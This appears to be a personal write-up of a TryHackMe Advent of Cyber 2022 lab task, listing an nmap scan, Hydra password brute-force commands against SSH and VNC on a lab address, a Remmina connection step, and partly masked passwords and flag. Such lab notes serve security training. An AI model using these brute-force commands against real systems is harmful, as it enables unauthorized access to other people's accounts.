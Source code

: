 -----------------------------
TryHackMe!
Advant of Cyber 4 2022
export $IP=10.10.45.218
Date - 5/12/2022
-----------------------------
TryHackMe - https://tryhackme.com/

-------------------
# Full Forms -->
-------------------

SSH = Secure Shell
RDP = Remote Desktop Protocol
VNC = Virtual Network Computer

-------------------------------------------------------
# Scanning Phase (Result is in the nmap directory) --> 
-------------------------------------------------------
## NMAP -->
	nmap -vv -sSV 10.10.45.218 -oN nmap/initial

-----------------------------------
# Password Brute Force Atteck -->
-----------------------------------
## Hydra -->
	SSH -->
		hydra -l alexander -P /usr/share/wordlists/rockyou.txt ssh://10.10.45.218
	VNC -->
		hydra -s 5900 -P /usr/share/wordlists/rockyou.txt -t 16 vnc://10.10.45.218

port 5900 is default for vnc.

------------------------------------------------
## process of stablishing the vnc Connect -->
------------------------------------------------
After Determining the password for vnc i installed a opensource and free application called `Remmina` and then connected through the ip and the password.

### syntax to install the app :--
	`sudo apt install remmina -y`

----------------
# PASSWORDS -->
----------------
## SSH:-->
	s****a

## VNC:-->
	1******r

----------------------------
# Questions & Answers -->
----------------------------

## 1. Use Hydra to find the VNC password of the target with IP address MACHINE_IP. What is the password? -->
----------------------------------------------------------------------------------------------------------------------
--> 1******r

-------------------
## 2. Flag -->
-------------------
-->	THM{I*************EN}

